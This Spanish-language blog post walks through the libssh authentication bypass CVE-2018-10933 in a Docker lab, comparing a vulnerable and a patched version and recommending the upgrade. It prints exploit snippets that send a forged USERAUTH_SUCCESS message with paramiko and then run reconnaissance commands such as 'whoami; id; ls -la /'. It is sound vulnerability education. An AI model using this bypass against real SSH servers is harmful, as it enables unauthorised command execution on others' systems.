






:slug: vulnerabilidad-libssh/
:date: 2018-10-18
:category: ataques
:subtitle: Nueva vulnerabilidad en libssh CVE-2018-10933
:tags: seguridad, bug, libssh, pentesting
:image: yodameme.png
:alt: Cara graciosa de Yoda
:description: Libssh es una librería que sirve para implementar el protocolo SSHv2 en el lado del servidor y del cliente. Recientemente un analista de seguridad descubrió una vulnerabilidad que le permite a un atacante remoto saltar la autenticación. Aquí explicaremos esta vulnerabilidad.
:keywords: Libssh, Seguridad, CVE, Vulnerabilidad, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:translate: libssh-bypass-cve/

= Nueva vulnerabilidad LibSSH

La nueva vulnerabilidad en +LibSSH+, reportada como
link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
reside en el código del servidor
el cual permite a un cliente saltarse el proceso de autenticación
y crear canales sin permiso,
lo cual afecta a los servidores que utilizan versiones +6.0+ y superiores
que son usados en modo servidor

El +bug+ fue descubierto por Peter Winter Smith del grupo +NCC+,
es como un truco +jedi+ :

* Usuario: +Déjame entrar+
* Servidor: NO
* Usuario: +Estoy autenticado, déjame entrar+
* Servidor: DE ACUERDO, ESTÁS DENTRO

¿Por qué pasa ésto?
Esto ocurre debido a que +LibSSH+ revisa la autenticación
cuando recibe el mensaje +SSH2_MSG_USERAUTH_SUCCESS+,
en lugar de +SSH2_MSG_USERAUTH_REQUEST+,
actuando como si el usuario ya estuviera autenticado
permitiéndole a un atacante saltarse la autenticación
y ejecutar comandos en el servidor.

== Construyendo el ambiente

¿Cómo funciona +LibSSH+?
Es una librería en +C+ para implementar el protocolo +SSHv2+
del lado del cliente y el servidor,
así que el primer paso es escribir nuestro código del lado del servidor,
vamos a utilizar la plantilla que tiene +LibSSH+ (+samplesshd-cb.c+)
y modificarla para nuestros propósitos.

En +ssh_channel_callbacks_struct+
vamos a agregar la siguiente línea
para tener la funcionalidad +exec+:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

A continuación, agregaremos la función +exec_request+,
ésta tomara nuestros comandos y los ejecutará en el servidor:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

Si tienes +LibSSH+ con versión +0.7.4+
puedes simplemente guardarla, compilarla y ejecutarla,
de no ser el caso, puedes utilizar otro método.
Vamos a utilizar un contenedor +docker+
e instalaremos ambas versiones:
una vulnerable y una corregida,
luego pasaremos nuestro código al servidor y lo ejecutaremos.
Los archivos de ejemplo pueden ser descargados [button]#link:cve201810933.zip[aquí]#

Para construir el contenedor,
abre un terminal en la carpeta que contiene el +Dockerfile+
y ejecuta el siguiente comando:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

Esto descargará los archivos necesarios
y compilará todos los recursos de +LibSSH+.

Luego, para abrir el contenedor
simplemente ejecuta este comando:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

Esto reflejara nuestro puerto +2222+ en el puerto +2222+ del contenedor
para poder ejecutar nuestras pruebas,
también abrirá un terminal +bash+ en la máquina del contenedor.
Aquí ejecutaremos nuestro servidor +LibSSH+.

== Explotando la vulnerabilidad

En este caso utilizaremos +LibSSH v0.7.4+
y probaremos la solución con +LibSSH v0.7.6+.
La prueba de concepto (+PoC+) se encuentra en +Python version 2+
y puedes revisar el código fuente
link:https://www.openwall.com/lists/oss-security/2018/10/17/5[aquí],
pero si descargaste nuestros archivos
se encuentra allí como +exploit.py+

Para ejecutar esta +PoC+
necesitarás +paramiko+,
el cual puedes instalar al ejecutar:

[source,bash]
----
host$ pip install paramiko
----

Dentro del contenedor, ejecuta el siguiente comando
para iniciar el servidor +LibSSH+ vulnerable:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

Utilizamos el  +flag+ +verbose+ para observar
lo que está enviando y recibiendo nuestro servidor

Luego, en tu máquina ejecuta el +exploit+ con:

[source,bash]
----
host$ python exploit.py
----

Si revisas tu contenedor
podrás ver esto:

Cuando el servidor espera un mensaje +SSH2_MSG_USERAUTH_REQUEST+
enviamos un +SSH2_MSG_USERAUTH_SUCCESS+

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----
El servidor acepta el mensaje,
con lo cual nos hemos saltado la autenticación.
Ahora podemos enviar nuestros comandos al servidor con:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

== La solución

La versión +0.7.6+ de +LibSSH+ no tiene esta vulnerabilidad
y podemos verificarlo.
En nuestro contenedor, solo necesitamos ejecutar:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

Y en nuestra máquina, ejecutar el exploit nuevamente:

[source,bash]
----
host$ python exploit.py
----

¿Qué está pasando?

Enviamos el mensaje +SSH2_MSG_USERAUTH_SUCCESS+
y el servidor lo recibe,
pero no nos autentica
debido a que ahora han agregado una validación a su código,
cuando el paquete es +SSH2_MSG_USERAUTH_SUCCESS+
luego verifica el estado de la autenticación
y si no es uno de los estados válidos
rechaza el paquete.

.Código en src/packet.c

Aquí puedes ver la diferencia en las respuestas
entre una versión vulnerable y una que no lo es:

.Vulnerable

.No vulnerable

Si tienes +LibSSH+ en tu servidor
y estás utilizando un componente de servidor
deberías instalar la versión actualizada
o las versiones corregidas de +LibSSH+.
